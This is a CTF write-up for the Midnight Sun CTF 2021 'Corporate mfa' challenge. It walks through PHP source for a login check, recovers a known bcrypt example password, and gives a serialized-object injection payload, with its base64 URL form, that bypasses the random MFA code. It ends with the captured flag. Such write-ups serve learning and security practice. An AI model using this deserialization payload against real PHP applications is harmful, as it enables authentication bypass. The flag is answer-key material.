 # Midnight Sun CTF 2021 "Corporate mfa" writeup

## Challenge

The source for this corporate zero-trust multi factor login portal has been leaked! Figure out how to defeat the super-secure one time code.
settings Service: http://corpmfa-01.play.midnightsunctf.se

## Solution

We need to break through the `verify()` function.

```php
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}
```

First, `verifyUsername()` is a simple string comparison.

```php
	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}
```

Second, `verifyPassword()` is a password inspection using bcrypt.

```php
	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}
```

This hash is well known in [PHP manual](https://www.php.net/manual/en/function.password-verify.php).

The password is `rasmuslerdorf`.

And finally, `verifyMFA()` is inspection of a number that is 10 digit random number.

```php
	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
```

This is very difficult to break through. However, the variable `mfa` is created by unserializing user requests.

So, it is possible to determine that `mfa` and `_correctValue` match by using `mfa` as the reference of `_correctValue` by object injection.

Answer is

```
O:8:"stdClass":4:{s:8:"username";s:11:"D0loresH4ze";s:8:"password";s:13:"rasmuslerdorf";s:13:"_correctValue";N;s:3:"mfa";R:4;}
```

And create userdata parameter by base64 encoding.

<http://corpmfa-01.play.midnightsunctf.se/?userdata=Tzo4OiJzdGRDbGFzcyI6NDp7czo4OiJ1c2VybmFtZSI7czoxMToiRDBsb3Jlc0g0emUiO3M6ODoicGFzc3dvcmQiO3M6MTM6InJhc211c2xlcmRvcmYiO3M6MTM6Il9jb3JyZWN0VmFsdWUiO047czozOiJtZmEiO1I6NDt9>

I got flag.

```
midnight{395E160F-4DB8-4D7A-99EF-08E6799741B5}
```
